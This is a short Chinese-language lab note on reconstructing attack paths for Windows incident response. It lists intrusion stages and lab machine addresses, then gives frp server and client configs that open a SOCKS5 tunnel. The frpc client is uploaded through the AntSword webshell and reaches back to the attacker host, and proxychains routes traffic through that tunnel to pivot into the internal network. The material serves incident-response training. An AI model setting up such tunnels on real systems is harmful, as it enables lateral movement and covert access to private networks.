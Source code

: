 # 如何还原攻击路径

## web入侵的流程

- 信息收集
- 漏洞扫描
- 渗透攻击
- 提权
- 后渗透
- 持续控制

## Windows应急排查

### 靶场环境介绍

#### 攻击机

win,NAT: 192.168.0.105

kali,NAT: 192.168.0.132

#### web服务器

win仅主机：192.168.203.150

win,NAT: 192.168.0.107 

#### redis服务器

kali仅主机：192.168.203.128

![image-20230424154226755](https://img.gyxnb.top/img/image-20230424154226755.png)

#### 将流量带出来

```

##通过蚁剑上传frpc,访问内网其他机器

win服务端frps.ini:
[common]
bind_port = 2098

frps.exe -c frps.ini


win客户端frpc.ini：
[common]
server_addr = 192.168.0.105
server_port = 2098
[socks5]
type = tcp
plugin = socks5
remote_port = 2091

frpc.exe -c frpc.ini


kali自带的proxychains4.conf:
vim /etc/proxychains4.conf
socks5 192.168.0.105 2091

```
